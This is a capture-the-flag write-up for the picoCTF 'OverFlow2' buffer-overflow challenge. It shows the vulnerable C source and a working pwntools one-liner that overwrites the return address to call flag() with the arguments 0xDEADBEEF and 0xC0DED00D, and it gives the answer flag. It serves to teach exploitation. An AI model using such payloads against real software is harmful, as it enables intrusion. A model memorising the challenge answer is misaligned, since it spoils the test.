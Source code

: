 # OverFlow2

Points : 

# Question

Now try overwriting arguments. Can you get the flag from this [program](vuln)? 
You can find it in /problems/overflow-2_1_210f23786438d7f7e527f4901367a74b on the shell server. [Source](vuln.c).


# Hint 

GDB can print the stack after you send arguments

# Solution

Looking the the source code we can see that :

```

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {	<------------ function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)				/
    return;						/
  if (arg2 != 0xC0DED00D)				/  <-----------if (arg1 != 0xDEADBEEF) or (arg2 != 0xC0DED00D) we will never print the flag
    return;						/
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];					<---------- create new buffer size 176
  gets(buf);						<---------- gets take the input from user (vulnerable for overflow)
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

So , like the others overflow challanges we need to override the return address to "flag" starting address in addition this time we also need to pass arguments 
such that arg1=0xDEADBEEF and arg2 = 0xC0DED00D .
this how our payload need to look like :
```
print "a"*(BUFFER_SIZE+EBP_AND_MORE_STUFF)+FLAG_ADDRESS+PADDING+ARG1+ARG2
``` 
```
```
python -c "from pwn import *; print 'a'*(176+12)+p32(0x080485e6)+'a'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
```

![](overflow2.png)

# Flag
picoCTF{arg5_and_r3turn5001d1db0}

